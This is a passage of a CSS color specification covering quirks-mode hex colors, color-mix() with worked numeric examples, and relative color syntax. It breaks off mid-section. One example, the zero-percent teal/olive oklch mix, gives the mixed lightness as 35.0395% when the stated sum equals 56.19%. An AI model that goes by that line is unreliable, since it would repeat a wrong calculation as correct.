: Window background. Computes to the color of `Canvas`.

****WindowFrame****

: Window frame. Computes to the color of `ButtonBorder`.

****WindowText****

: Text in windows. Computes to the color of `CanvasText`.

### Appendix B: Deprecated Quirky Hex Colors {#css-color-4:quirky-color}

When CSS is being parsed in quirks mode, **`<quirky-color>`** is a type of `<color>` that is only valid in certain properties:

- `background-color`
- `border-color`
- `border-top-color`
- `border-right-color`
- `border-bottom-color`
- `border-left-color`
- `color`

It is *not* valid in properties that include or reference these properties, such as the `background` shorthand, or inside functional notations such as `color-mix()`

Additionally, while `<quirky-color>` must be valid as a `<color>` when parsing the affected properties in the `@supports` rule, it is *not* valid for those properties when used in the `CSS.supports()` method.

A `<quirky-color>` can be represented as a `<number-token>`, `<dimension-token>`, or `<ident-token>`, according to the following rules:

- If it’s an `<ident-token>`, the token’s representation must contain exactly 3 or 6 characters, all hexadecimal digits. It represents a `<hex-color>` with the same value.
- If it’s a `<number-token>`, it must have its integer flag set.

  Serialize the integer’s value. If the serialization has less than 6 characters, prepend "0" characters to it until it is 6 characters long. It represents a `<hex-color>` with the same value.
- If it’s a `<dimension-token>`, it must have its integer flag set.

  Serialize the integer’s value, and append the representation of the token’s unit. If the result has less than 6 characters, prepend "0" characters to it until it is 6 characters long. It represents a `<hex-color>` with the same value.

(In other words, Quirks Mode allows hex colors to be written without the leading "#", but with weird parsing rules.)

### 23. Accessibility Considerations {#css-color-4:a11y-sec}

This specification [encourages authors to not use color alone](#css-color-4:accessibility) as a distinguishing feature.

This specification encourages browsers to ensure adequate contrast for specific system color foreground/background pairs. A harder requirement with specific AA or AAA contrast ratios was considered, but since browsers are often just passing along color choices made by the OS, or selected by users (who may have particular requirements, including lower contrast for people living with migraines or epileptic seizures), the CSSWG was unable to require a specific contrast level.

---

## CSS Color Module Level 5 {#css-color-5}

- **Shortname:** `css-color-5`
- **Editor's Draft:** [https://drafts.csswg.org/css-color-5/](https://drafts.csswg.org/css-color-5/)
- **Published TR:** [https://www.w3.org/TR/css-color-5/](https://www.w3.org/TR/css-color-5/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-11-14
- **Diff Specification Over:** [CSS Color Module Level 4 (`css-color-4`)](#css-color-4)

### 1. Introduction {#css-color-5:intro}

*This section is not normative.*

This module adds the new functions `contrast-color()`, `color-mix()` and `light-dark()`, and extends existing ones with [relative color syntax](#css-color-5:relative-colors).

It also extends the `color()` function so that not only predefined color spaces, but also custom color spaces defined by ICC profiles (including calibrated CMYK) can be used in CSS.

It also adds `device-cmyk`, a representation of uncalibrated cmyk color.

### 2. The `<color>` syntax {#css-color-5:color-syntax}

Colors in CSS are represented by the **`<color>`** type:

```css
<color> = <color-base> | currentColor | <system-color> | 
      <contrast-color()> | <device-cmyk()>  | <light-dark-color>

<color-base> = <hex-color> | <color-function> | <named-color> | <color-mix()> | transparent
<color-function> = <rgb()> | <rgba()> |
              <hsl()> | <hsla()> | <hwb()> |
              <lab()> | <lch()> | <oklab()> | <oklch()> |
              <alpha()> |
              <color()>
```

An **absolute color** is a `<color>` whose computed value has an absolute, colorimetric interpretation. This means that the value is not:

- `currentColor` (which depends on the value of the `color` property)
- a `<system-color>` (which depends on the color mode)
- `<light-dark-color>` (which depends on the color mode)
- `<contrast-color()>` (which depends on the color mode)
- `<device-cmyk()>` (which has no colorimetric basis)

Nor are any of those values used inside `<color-mix()>` or in relative color syntax.

The colors that **resolve to sRGB** are:

- [hex](../css-color-5/css-color-4#hex-notation) colors
- `rgb()` and `rgba()` values, including relative colors
- `hsl()` and `hsla()` values, including relative colors
- `hwb()` values, including relative colors
- [named](../css-color-5/css-color-4#named-colors) colors

The functions that **support legacy color syntax** are:

- `rgb()` and `rgba()`
- `hsl()` and `hsla()`

The `<hsl()>`, `<hsla()>`, `<hwb()>`, `<lch()>`, and `<oklch()>` color functions are cylindrical polar color representations using a `<hue>` angle; the other color functions use rectangular orthogonal color representations.

### 3. Mixing Colors: the `color-mix()` Function {#css-color-5:color-mix}

Web developers, design tools and design system developers often use color functions to assist in scaling the design of their component color relations. With the increasing usage of design systems that support multiple platforms and multiple user preferences, like the increased capability of Dark Mode in UI, this becomes even more useful to not need to manually set color, and to instead have a single source from which schemes are calculated.

  

Above, a color picker operating in CIE LCH space. Here, a pair of colors are being used to define a color scale on the Chroma-Lightness plane (constant Hue). Below, the color scale in use on a choropleth map.

Currently Sass, calc() on HSL values, or PostCSS is used to do this. However, preprocessors are unable to work on dynamically adjusted colors; all current solutions are restricted to the sRGB gamut and to the perceptual limitations of HSL (colors are bunched up in the color wheel, and two colors with visually different lightness, like yellow and blue, can have the same HSL lightness).

To meet this need, the color-mix() function takes a list of one or more `<color>` specifications and returns the result of mixing them, in a given `<color-space>`, in the specified amounts.

```css
color-mix() = color-mix( <color-interpolation-method>? , [ <color> && <percentage [0,100]>? ]#)
```

#### 3.1.  Colorspace for mixing {#css-color-5:color-mix-space}

If no color interpolation method is specified, assume Oklab. Otherwise, use the specified colorspace for mixing.

> **Example:** For example, these two are exactly equivalent:
>
> ```css
> color-mix(in oklab, firebrick, goldenrod)
> color-mix(firebrick, goldenrod)
> ```

#### 3.2.  Percentage Normalization {#css-color-5:color-mix-percent-norm}

Percentages are required to be in the range 0% to 100%. Negative percentages are specifically disallowed. Percentages are normalized by normalizing mix percentages.

> **Example:** These syntactic forms are thus all equivalent:
>
> ```css
> color-mix(in lch, purple 50%, plum 50%)
> color-mix(in lch, purple 50%, plum)
> color-mix(in lch, purple, plum 50%)
> color-mix(in lch, purple, plum)
> color-mix(in lch, plum, purple)
> color-mix(in lch, purple 80%, plum 80%)
> ```
>
> All produce a 50-50 mix of  purple and  plum, in lch:  lch(51.51% 52.21 325.8) which is  rgb(68.51% 36.01% 68.29%).
>
> However, this form is *not* the same, as the alpha is less than one:
>
> ```css
> color-mix(in lch, purple 30%, plum 30%)
> ```
>
> This produces  lch(51.51% 52.21 325.8 / 0.6) which is  rgb(68.51% 36.01% 68.29% / 0.6).

#### 3.3.  Calculating the Result of color-mix {#css-color-5:color-mix-result}

To **calculate a color-mix()**:

1. Normalize mix percentages from the list of mix items passed to the function, with the "forced normalization" flag set to true, letting *items* and *leftover* be the result.
2. Let *alpha mult* be `1 - leftover`, interpreting *leftover* as a number between 0 and 1.
3. If *items* is length 1, set *color* to the color of that sole item, converted to the specified interpolation `<color-space>`.

   Otherwise:

  1. Let *item stack* be a stack made by reversing *items*. (Thus, with the first item at the top of the stack.)
  2. While *item stack* has length 2 or greater:

    1. Pop from *item stack* twice, letting *a* and *b* be the two results in order. Let *combined percentage* be the sum of *a* and *b*’s percentages.
    2. Interpolate *a* and *b*’s colors as described in [CSS Color 4 §  13. Color Interpolation](#css-color-4:interpolation), with a progress percentage equal to `(b’s percentage) / combined percentage)`, if *combined percentage* is greater than 0, and 0.5 otherwise. If the specified color space is a cylindrical polar color space, then the `<hue-interpolation-method>` controls the interpolation of hue, as described in [CSS Color 4 § 13.6 Hue Interpolation](#css-color-4:hue-interpolation). If no <hue-interpolation-method> is specified, assume `shorter`.
    3. Create a new mix item with the resulting color and a percentage of *combined percentage*, and push it onto *item stack*.
  3. Set *color* to the color of the sole remaining item in *item stack*.
4. Multiply the alpha component of *color* by *alpha mult*.
5. Return *color*.

> **Note:** In cylindrical polar color spaces, mixing is order-dependent, as which direction is “shorter” or “longer” around the hue circle can change depending on what other mixes have already been performed. This algorithm mixes each color in the specified order, mixing the result with the next in the list. For rectangular orthogonal color spaces, the order doesn’t matter, and the process can be simplified.

> **Example:** This example produces a mixture of 40%  peru and 60%  palegoldenrod.
>
> ```css
> color-mix(in lch, peru 40%, palegoldenrod)
> ```
>
> The mixing is done in `lch` color space. Here is a top-down view, looking along the neutral L axis:
>
> A mixture of two colors, and the mixed output. We are looking down the CIE L axis onto the ab plane. There are two axes, labelled *a* and *b* which cross at the origin, which is in the centre of the plot.
>
> Mixtures of peru and palegoldenrod in CIE LCH. Peru has a hue angle, measured from the positive a axis, of 63.677 degrees while palegoldenrod has a hue angle of 98.834 degrees. Peru has a chroma, or distance from the central neutral axis, of 54.011 while palegoldenrod has a chroma of 31.406. All possible mixtures lie along the curve. A 40%/60% mixture is shown.
>
> The calculation is as follows:
>
> - peru is lch(62.253% 54.011 63.677)
> - palegoldenrod is lch(91.374% 31.406 98.834)
> - the mixed lightness is 62.253 * 40/100 + 91.374 * (100-40)/100 = 79.7256
> - the mixed chroma is 54.011 * 40/100 + 31.406 * (100-40)/100 = 40.448
> - the mixed hue is 63.677 * 40/100 + 98.834 * (100-40)/100 = 84.771
> - the mixed result is  lch(79.7256% 40.448 84.771)

> **Example:** This example produces the mixture of teal and olive, in `lch` color space, with each lch component being 65% of the value for teal and 35% of the value for olive.
>
> > **Note:** interpolating on hue and chroma keeps the intermediate colors as saturated as the endpoint colors.
>
> ```css
> color-mix(in lch, teal 65%, olive);
> ```
>
> A mixture of two colors, and the mixed output. We are looking down the CIE L axis onto the ab plane. There are two axes, labelled *a* and *b* which cross at the origin, which is in the centre of the plot.
>
> Mixtures of teal and olive. Teal has a hue angle, measured from the positive a axis, of 196.4524 degrees while olive has a hue angle of 99.5746 degrees. Teal has a chroma, or distance from the central neutral axis, of 31.6903 while olive has a chroma of 56.8124. Mixtures lie along the dashed curve. A 65%/35% mixture is shown.
>
> The calculation is as follows:
>
> - sRGB  teal (#008080) is lch(47.9855% 31.6903 196.4524)
> - sRGB  olive (#808000) is lch(52.1496% 56.8124 99.5746)
> - mixed lightness is 47.9855 * 0.65 + 52.1496 * 0.35 = 49.4429
> - mixed chroma is 31.6903 * 0.65 + 56.8124 * 0.35 = 40.4830
> - mixed hue is 196.4524 * 0.65 + 99.5746 * 0.35 = 162.5452
> - mixed result is lch(49.4429% 40.4830 162.5452)
> - which is a slightly-blueish green:  rgb(7.7377% 52.5730% 37.3213%)

> **Example:** In this example, both percentages are zero, so their sum is also zero; thus, the alpha is zero and the color components are mixed 50% 50%:
>
> ```css
> color-mix(in oklch, teal 0%, olive 0%);
> ```
>
> The calculation is as follows:
>
> - sRGB teal (#008080) is oklch(54.31% 0.0927 194.8)
> - sRGB olive (#808000) is oklch(58.07% 0.1266 109.8)
> - mixed lightness is 54.31% * 0.5 + 58.07% * 0.5 = 35.0395%
> - mixed chroma is 0.0927 * 0.5 + 0.1266 * 0.5 = 0.10965
> - mixed hue is 194.8 * 0.5 + 109.8 * 0.5 = 152.3
> - mixed result is the fully transparent color  oklch(35.0395% 0.10965 152.3 / 0)

> **Example:** In this example three colors are mixed, and no percentages are given so each color contributes one-third of the final result.
>
> ```css
> color-mix(in oklab, teal, olive, blue);
> ```
>
> The calculation is as follows:
>
> - teal (#008080) is oklab(54.31% -0.0896 -0.0236)
> - olive (#808000) is oklab(58.07% -0.0428 0.1191)
> - blue (#0000FF) is oklab(45.20% -0.0325 -0.3115)
> - mixed lightness is (54.31 + 58.07 + 45.20) / 3 = 52.53%
> - mixed a is (-0.0896 + -0.0428 + -0.0325) / 3 = -0.0550
> - mixed b is (-0.0236 + 0.1191 + -0.3115) / 3 = -0.0720
> - mixed result is  oklab(52.53% -0.0550 -0.0720)

#### 3.4.  Effect of Mixing Color Space on color-mix {#css-color-5:color-mix-color-space-effect}

The choice of mixing color space can have a large effect on the end result.

> **Example:** This example is a 50% mix of white and black, in three different color spaces.
>
> ```css
> color-mix(in lch, white, black);
> color-mix(in xyz, white, black);
> color-mix(in srgb, white, black);
> ```
>
> The calculation is as follows:
>
> - sRGB  white (#FFF) is lch(100% 0 none)
> - sRGB  black (#000) is lch(0% 0 none)
> - The mix in LCH is  lch(50% 0 none)
> - The mix in XYZ is  lch(76% 0 none)
> - The mix in sRGB is  lch(53.4% 0 none)
>
> The mix in LCH gives an L value of 50%, a perfect mid gray, exactly as expected (mixing in Lab would do the same, as the Lightness axis is the same in LCH and Lab).
>
> The mix in XYZ gives a result that is too light; XYZ is linear-light but is not perceptually uniform. The mix in sRGB gives a result that is a bit too light; sRGB is neither perceptually uniform nor linear-light.

> **Example:** This example produces the mixture of the a red and a sky blue, in `xyz-d50` color space, with the mixture being 75.23% of that of the red (and thus, 24.77% of that of the blue).
>
> ```css
> color-mix(in xyz-d50, rgb(82.02% 30.21% 35.02%) 75.23%, rgb(5.64% 55.94% 85.31%));
> ```
>
> The calculation is as follows:
>
> - rgb(82.02% 30.21% 35.02%) is lch(52% 58.1 22.7) which is X=0.3214, Y=0.2014, Z=0.0879.
> - rgb(5.64% 55.94% 85.31%) is lch(56% 49.1 257.1) which is X=0.2070, Y=0.2391, Z=0.5249.
> - mixed result X=(0.3214 * 0.7523) + (0.2070 * (1 - 0.7523)) = 0.29306.
> - mixed result Y=(0.2014 * 0.7523) + (0.2391 * (1 - 0.7523)) = 0.21074.
> - mixed result Z=(0.0879 * 0.7523) + (0.5249 * (1 - 0.7523)) = 0.19614.
> - mix result is  lch(53.0304% 38.9346 352.8138) which is rgb(72.300% 38.639% 53.557%)

> **Example:** This example is a 50% mix of white and blue, in three different color spaces.
>
> ```css
> color-mix(in lch, white, blue);
> color-mix(in oklch, white, blue);
> color-mix(in srgb, white, blue);
> ```
>
> The calculation is as follows:
>
> - white is rgb(100% 100% 100%) which is lch(100% 0 none) which is oklch(100% 0 none)
> - blue is rgb(0% 0% 100%) which is lch(29.5683% 131.201 301.364) which is oklch(45.201% 0.31321 264.052)
> - mix in lch is lch(64.7841% 65.6008 301.364) which is quite purple
> - mix in oklch is oklch(72.601% 0.15661 264.052)
> - mix in srgb is rgb(50% 50% 100%) which is also a bit purple

> **Example:** This example is a mix of two colors, in `hsl` color space, where one of the colors to be mixed is outside the `sRGB` gamut.
>
> ```css
> color-mix(in hsl, color(display-p3 0 1 0) 80%, yellow);
> ```
>
> The calculation is as follows:
>
> - color(display-p3 0 1 0) is color(srgb -0.5116 1.01827 -0.3107) which is outside the sRGB gamut
> - Converted to `hsl`  hsl(127.879 301.946 25.334)
> - yellow is  hsl(60 100% 50%)
> - the hue is 127.879 × 0.8 + 60 × 0.2 = 114.3032
> - the saturation is 301.946 × 0.8 + 100 × 0.2 = 261.5568
> - the lightness is 25.334 × 0.8 + 50 × 0.2 = 30.2672
> - the mixed result is  hsl(114.3032 261.5568 30.2672) which is  color(srgb -0.3387 1.0943 -0.48899)

> **Example:** `device-cmyk()` can be used in `color-mix()` but the result will depend on how the implementation chooses to obtain a computed value.
>
> ```css
> color-mix(in lab, device-cmyk(0.091777 0.043303 0.312816 0.000000) 100%, yellow);
> ```
>
> Since the first color is at 100%, the second color is 0% and does not affect the mixed result in any way. The result is thus the computed value of the first color, in CIE Lab.
>
> To visualize the result, let us say that the device CMYK values are in fact to be printed using SWOP 2006 coated.
>
> - device-cmyk(0.091777 0.043303 0.312816 0.000000) is  lab(91.44% 4.142 20.52)
>
> Suppose the implementation uses an ICC profile to obtain `lab()` colors, and in this example a FOGRA39 Coated profile is used:
>
> - device-cmyk(0.091777 0.043303 0.312816 0.000000) is  lab(91.840596 -3.559090 20.449159)
> - The deltaE 2000 between this and the original printed color is **8.17** which is clearly visible.
>
> Now suppose another implementation uses the naive color conversion algorithm, giving an sRGB result.
>
> - device-cmyk(0.091777 0.043303 0.312816 0.000000) is  rgb(90.8223% 95.6697% 68.7184%) which is  lab(94.02% -12.31 31.79)
> - The deltaE 2000 between this and the original printed color is **14.3** which is very visible.

#### 3.5.  Effect of Non-Unity Alpha on color-mix {#css-color-5:color-mix-with-alpha}

So far, all the `color-mix()` examples have used fully opaque colors. To simplify the examples, the premultiplication and unpremultiplication steps were omitted because these would simply multiply by 1, and divide by 1, so the result would be unchanged.

In the general case, colors may have non-unity alpha components and thus the premultiply, interpolate, unpremultiply steps must not be omitted.

> **Example:** This example is 25% semi-opaque red and 75% semi-opaque green. mixed in sRGB. Both the correct (premultiplied) and incorrect (non-premultiplied) workings are shown.
>
> ```css
> color-mix(in srgb, rgb(100% 0% 0% / 0.7) 25%, rgb(0% 100% 0% / 0.2));
> ```
>
> The calculation is as follows:
>
> - rgb(100% 0% 0% / 0.7) when premultiplied, is [0.7, 0, 0]
> - rgb(0% 100% 0% / 0.2) when premultiplied, is [0, 0.2, 0]
> - the premultiplied, interpolated result is [0.7 * 0.25 + 0 * (1 - 0.25), 0 * 0.25 + 0.2 * (1 - 0.25), 0 * 0.25 + 0 * (1 - 0.25)] which is [0.175, 0.150, 0]
> - the interpolated alpha is 0.7 * 0.25 + 0.2 * (1 - 0.25) = 0.325
> - the un-premultiplied result is [0.175 / 0.325, 0.150 / 0.325, 0 / 0.325] which is [0.53846, 0.46154, 0]
> - so the mixed color is  color(srgb 0.53846 0.46154 0 / 0.325)
>
> The *incorrect* calculation would be:
>
> - the interpolated result is [1 * 0.25 + 0 * (1 - 0.25), 0 * 0.25 + 1 * (1 - 0.25), 0 * 0.25 + 0 * (1 - 0.25)] which is [0.25, 0.75, 0]
> - so the *incorrect* mixed color is  color(srgb 0.25 0.75 0 / 0.325)
>
> This is a *huge* difference; the ΔE2000 between the correct and incorrect results is 30.7!

When the percentage normalization generates an alpha multiplier, the calculation is the same except for an additional last step.

> **Example:** This example is similar to the previous one, 25% semi-opaque red and 75% semi-opaque green. mixed in sRGB.
>
> However in this case the percentages are specified as 20% of the first color and 60% of the second. This adds to 80% so the alpha multiplier is 0.8.
>
> The mix percentages are then scaled by a factor of 100/80:  20% * 100/80 = 25%  60% * 100/80 = 75%  giving the same final mix percentages as the previous example.
>
> ```css
> color-mix(in srgb, rgb(100% 0% 0% / 0.7) 20%, rgb(0% 100% 0% / 0.2) 60%);
> ```
>
> The calculation is as follows:
>
> - rgb(100% 0% 0% / 0.7) when premultiplied, is [0.7, 0, 0]
> - rgb(0% 100% 0% / 0.2) when premultiplied, is [0, 0.2, 0]
> - the premultiplied, interpolated result is [0.7 * 0.25 + 0 * (1 - 0.25), 0 * 0.25 + 0.2 * (1 - 0.25), 0 * 0.25 + 0 * (1 - 0.25)] which is [0.175, 0.150, 0]
> - the interpolated alpha is 0.7 * 0.25 + 0.2 * (1 - 0.25) = 0.325
> - the un-premultiplied result is [0.175 / 0.325, 0.150 / 0.325, 0 / 0.325] which is [0.53846, 0.46154, 0]
> - so the mixed color would be  color(srgb 0.53846 0.46154 0 / 0.325)
> - there is a 0.8 alpha multiplier, so the alpha of the mixed result is actually 0.325 * 0.8 = 0.260 so the mixed color is actually  color(srgb 0.53846 0.46154 0 / 0.260)

> **Note:** do not multiply the interpolated alpha by the alpha multiplier and then use that to undo premultiplication. That would be correct if the mix percentages were not scaled to sum to 100%, but they are, so doing it this way would adjust the mixed color *twice*.

### 4.  Relative Colors {#css-color-5:relative-colors}

#### 4.1.  Processing Model for Relative Colors {#css-color-5:rcs-intro}

In previous levels of this specification, the color functions could only specify colors in an absolute manner, by directly specifying all of the color components.

The new **relative color** syntax extends modern color syntax to allow existing colors to be modified using the color functions: if an **origin color** is specified, then each color component (and the alpha component, if specified) can *either* be directly specified, or taken from the origin color (and possibly modified with math functions).

Most relative colors allow modification of both the color components and the alpha component. However, there is a simpler and more restricted form in which only the alpha component is modified.

> **Example:** For example, here we use relative colors to make a less vibrant variant of an existing color:
>
> ```
> --base:  gold;
> --softerbase:  oklch(from var(--base) l calc(c * 0.9) h);
> ```
>
> While here we change just the opacity:
>
> ```
> --marker:  teal;
> --palemarker:  alpha(from var(--marker) / 0.7);
> ```

The origin color and the relative color need not use the same color function. Thus, we define a **relative color processing space**, which is the color space within which computation of color values takes place; this also affects the serialization of the result of the relative color.

- For the alpha-only form, the relative color processing space is that of the origin color.
- For the color-affecting forms, the relative color processing space is that of the relative color function.

**Conversion, if required**: All operations take part in the relative color processing space. If the **originally specified color space** for the origin color used a different color function, it’s first converted into the relative color processing space, so it has meaningful values for the components, and color component keywords refer to that color space.

If the alpha value of the relative color is omitted, it defaults to that of the origin color (rather than defaulting to `100%`, as it does in the absolute syntax).

When relative color syntax is used, **color component** values, whether directly specified or arising from color space conversion, are *not clamped* to the reference ranges but are retained as-is. This preserves out of gamut values, if the destination color space is capable of representing them.

However, when relative color syntax is used, **alpha component** values whether directly specified or arising from color space conversion, *are* clamped to the reference range.

Missing components are handled the same way as with [CSS Color 4 § 13.4 Interpolating with Missing Components](#css-color-4:interpolation-missing): the origin colorspace and the relative function colorspace are checked for analogous components which are then carried forward as missing.

While most uses of relative color syntax will use the component keywords in their corresponding argument, you can use them in any position.

Beware when using components outside their normal position; when percentages are resolved to numbers, there is no "magic scaling" to account for the changed position if those numbers are used in a different place.

There is no relative `device-cmyk()` syntax.

#### 4.2.  Relative Color Syntax {#css-color-5:relative-syntax}

The precise details of each function’s syntactic changes to accommodate relative colors are listed below, but they all follow a common structure:

- An origin color can be specified with a `from <color>` value at the start of the function. This includes the optional alpha component, if specified.
- If no origin color is specified, the function is not a relative color.
- If an origin color is specified, the remaining arguments can either be specified directly, as normal, or be specified as a **component keyword** referring to one of the components of the origin color converted to the relative color processing space. Math functions can also use these keywords to do dynamic modifications of the origin color’s components.
- Relative color syntax doesn’t change whether an argument is required or optional.
- Relative color syntax only applies to the modern color syntax. It *cannot* be used with legacy color syntax and attempting to do so is an error.
- However, the origin color can use either modern or legacy syntax.

The component keywords return a `<number>`, or `none`; if they were originally specified as a `<percentage>` or an `<angle>`, that <percentage> is resolved to a <number> and the <angle> is resolved to a <number> of degrees (which is the canonical unit) in the range [0, 360].

> **Example:** For example, if a color is specified using `<percentage>`, then RCS in the same colorspace will use the resolved `<number>` form:
>
> ```
> html { --bluegreen:  oklab(54.3% -22.5% -5%); }
> .overlay {
>   background:  oklab(from var(--bluegreen) calc(1.0 - l) calc(a * 0.8) b);
> }
> ```
>
> In this example, the specified percentages are resolved to numbers, giving oklab(0.543 -0.09 -0.02). The resulting RCS color has l = 1 - 0.543 = 0.457, a = -0.09 * 0.8 = -0.072, and b is unchanged at -0.02: oklab(0.457 -0.072 -0.02).

> **Example:** For example, if the origin color has a hue `<angle>` specified in degrees, then RCS in the same colorspace will use the resolved `<number>` form:
>
> ```
> html { --base:  oklch(52.6% 0.115 44.6deg) }
> .summary {
>   background:  oklch(from var(--base) l c  calc(h + 90));
> }
> ```
>
> In this example the resulting RCS color is oklch(0.526 0.115 134.6).
>
> Had the origin color hue `<angle>` been specified in another unit, such as radians or turns, still the resolved `<number>` would be the number of degrees.

> **Example:** By using the component keywords in a math function, an origin color can be manipulated in more advanced ways.
>
> ```
> html { --color: green; }
> .foo {
>   --darker-accent: lch(from var(--color) calc(l / 2) c h);
> }
> ```
>
> In this example, the origin color is darkened by cutting its lightness in half, without changing any other aspect of the color.
>
> Note as well that the origin color is a color keyword (and thus, sRGB), but it’s automatically interpreted as an LCH color due to being used in the `lch()` function.

> **Example:** For example, if a theme color is specified as opaque, but in a particular instance you need it to be partially transparent:
>
> ```
> html { --bg-color:  blue; }
> .overlay {
>   background:  rgb(from var(--bg-color) r g b / 80%);
> }
> ```
>
> In this example, the r, g, and b components of the origin color are unchanged, indicated by specifying them with the keywords drawing their values from the origin color, but the opacity is set to `80%` to make it slightly transparent, regardless of what the origin color’s opacity was.
>
> While this example is syntactically correct, and illustrates what happens, there is a simpler form for this specific case of alpha-only manipulation, which avoids having to list the unchanged color components:
>
> ```
> html { --bg-color:  blue; }
> .overlay {
>   background:  alpha(from var(--bg-color) / 80%);
> }
> ```

> **Example:** For example, a Display P3 color which is outside the gamut of sRGB can still be represented, as it is not clipped.
>
> ```
> --vivid-yellow:  color(display-p3 1 1 0); 
> --paler-yellow:  color(from var(--vivid-yellow) srgb r g calc(b + 0.5));
> ```
>
> Here --vivid-yellow, once converted to sRGB, is  rgb(100% 100% -34.63%) and the negative blue component is not clamped. The result of the RCS calculation is  rgb(100% 100% 15.37%)

> **Example:** For example, attempting to double an alpha of 0.7 in the origin color results in an alpha in the result of 1, not 1.4.
>
> ```
> --tan:  oklch(78% 0.06 75 / 0.7);
> --deeper-tan:  oklch(from var(--tan) l c h / calc(alpha * 2));
> ```

> **Example:** For example, to do a rough approximation of grayscaling a color:
>
> ```
> --blue-into-gray: rgb(from var(--color)
>                     calc(r * .3 + g * .59 + b * .11)
>                     calc(r * .3 + g * .59 + b * .11)
>                     calc(r * .3 + g * .59 + b * .11));
> ```
>
> Using this, `red` would become `rgb(76.5 76.5 76.5)`, `lime` would become `rgb(150.45 150.45 150.45)`, and `blue` would become `rgb(28.05 28.05 28.05)`. A more moderate color, like `darkolivegreen`, which has RGB values `rgb(85 107 47)`, would become `rgb(93.8 93.8 93.8)`.
>
> (Rough because firstly, although this looks like a luminance calculation, the red green and blue values are manipulated in gamma-encoded space rather than linear-light; secondly, the weighting factors are those for the obsolete NTSC color space, not sRGB.)
>
> (Note, too, that this is just to illustrate the syntax; an easier and more accurate way to grayscale a color is to use the `oklch()` function, as that color space is more accurate to human perception: `oklch(from var(--color) l 0 h)` preserves the lightness, but zeroes out the chroma, which determines how "colorful" the color is.)

> **Example:** For example,
>
> ```
> color: color(from color(srgb 0 0 0 / 60%) srgb alpha 0.6 0.6 / 0.9);
> ```
>
> The alpha component is resolved as a `<number>`, giving 0.6; thus the resulting color is  `color(srgb 0.6 0.6 0.6 / 0.9)`.
>
> However, in this second example, again the alpha resolves to 0.6, giving a very different color due to the color component range of 0 to 255 in rgb() syntax:
>
> ```
> color: rgb(from rgb(0 0 0 / 60%) alpha 153 153 / 0.9);
> ```
>
> which results in  `rgb(0.6 153 153 / 0.9)` and *not*  `rgb(153 153 153 / 0.9)`.

> **Example:** In this example the achromatic origin color has a missing hue; the relative color also has a missing hue, which affects a gradient using that color.
>
> ```
> html { --bg:  hsl(none 3% 50%); }
> .foo {
>   --darker-bg:  oklch(from var(--bg) calc(l * 0.8) c h);
> }
> .bar {
>   background: linear-gradient(in Oklab to right,   var(--darker-bg),   #4C3);
> }
> ```
>
> The value of --bg when converted to OkLCh is oklch(0.592 0.009 17.42) but the analogous hue component is carried forward giving oklch(0.592 0.009 none). These values are then used in the relative function, giving the darker color oklch(0.474 0.009 none).
>
> The light green in the gradient is  oklch(0.743 0.222 141.6), and so, when interpolated, the other color take that hue, becoming  oklch(0.474 0.009 141.6).
>
> Thus, the gradient will have a constant greenish hue.
>
> If an implementation failed to do this carrying forward, the grayish --darker-bg would have a hue of 0, giving an undesirable reddish tint at the start of the gradient.
>
> 
>
> Correct (above) and incorrect (below, reddish) gradients.

However, if calculations are done on missing values, `none` is treated as 0. This includes using channel keywords with a value of `none` in math expressions.

#### 4.3. Relative sRGB Colors {#css-color-5:relative-RGB}

The meaning of sRGB colors is defined in [CSS Color 4 § 5 sRGB Colors](#css-color-4:numeric-srgb).

The grammar of the modern color syntax `rgb()` and `rgba()` functions are extended as follows:

```css
<modern-rgb-syntax> = rgb( [ from <color> ]?
        [ <number> | <percentage> | none]{3}
        [ / [<alpha-value> | none] ]?  )
<modern-rgba-syntax> = rgba( [ from <color> ]?
        [ <number> | <percentage> | none]{3}
        [ / [<alpha-value> | none] ]?  )
```

Within a relative color syntax `rgb()` or `rgba()` function, the allowed component keywords are:

- **r**, **g**, and **b** are all `<number>`s that correspond to the origin color’s red, green, and blue components after conversion, if required to sRGB. 255.0 is equivalent to 100%.
- **alpha** is a `<number>` that corresponds to the origin color’s alpha transparency. 1.0 is equivalent to 100%.

> **Example:** To manipulate color components in the sRGB color space:
>
> ```
> rgb(from  indianred 255 g b)
> ```
>
> This takes the sRGB value of indianred (205 92 92) and replaces the red component with 255 to give  rgb(255 92 92).

Relative sRGB color syntax is *only* applicable to the non-legacy RGB syntactic forms.

> **Example:** For example, this attempt to use the rgba legacy color syntax with commas would be incorrect
>
> ```
> rgba(from  darkblue 16, 32, b, 0.5 )
> ```

> **Example:** Instead, use
>
> ```
> rgb(from  darkblue 16 32 b / 0.5 )
> ```
>
> This takes the sRGB value of darkblue (0 0 139) and replaces the red, green and alpha components to give  rgb(16 32 139 / 0.5)

#### 4.4. Relative HSL Colors {#css-color-5:relative-HSL}

The meaning of HSL colors is defined in [CSS Color 4 § 7 HSL Colors: hsl() and hsla() functions](#css-color-4:the-hsl-notation).

The grammar of the modern color syntax `hsl()` and `hsla()` functions is extended as follows:

```css
<modern-hsl-syntax> = hsl([from <color>]?
          [<hue> | none]
          [<percentage> | <number> | none]
          [<percentage> | <number> | none]
          [ / [<alpha-value> | none] ]? )
<modern-hsla-syntax> = hsla([from <color>]?
        [<hue> | none]
        [<percentage> | <number> | none]
        [<percentage> | <number> | none]
        [ / [<alpha-value> | none] ]? )
```

Within a relative color syntax `hsl()` or `hsla()` function, the allowed component keywords are:

- **h** is a `<number>` that corresponds to the origin color’s HSL hue, in degrees, after conversion, if required to sRGB, normalized to a [0, 360] range. 90 is equivalent to 90deg.
- **s** and **l** are `<number>`s that correspond to the origin color’s HSL saturation and lightness, after conversion, if required to sRGB. 100 is equivalent to 100%.
- **alpha** is a `<number>` that corresponds to the origin color’s alpha transparency 1.0 is equivalent to 100%.

> **Example:** This adds 180 degrees to the hue angle, giving a complementary color.
>
> ```
> --accent:  lightseagreen;
> --complement:   hsl(from var(--accent) calc(h + 180) s l);
> ```
>
> lightseagreen is hsl(177deg 70% 41%), so --complement is  hsl(357deg 70% 41%)

Relative HSL color syntax is only applicable to the non-legacy HSL syntactic forms.

#### 4.5. Relative HWB Colors {#css-color-5:relative-HWB}

The meaning of HWB colors is defined in [CSS Color 4 § 8 HWB Colors: hwb() function](#css-color-4:the-hwb-notation).

The grammar of the `hwb()` function is extended as follows:

```css
hwb() = hwb([from <color>]?
        [<hue> | none]
        [<percentage> | <number> | none]
        [<percentage> | <number> | none]
        [ / [<alpha-value> | none] ]? )
```

Within a relative color syntax `hwb()` function, the allowed component keywords are:

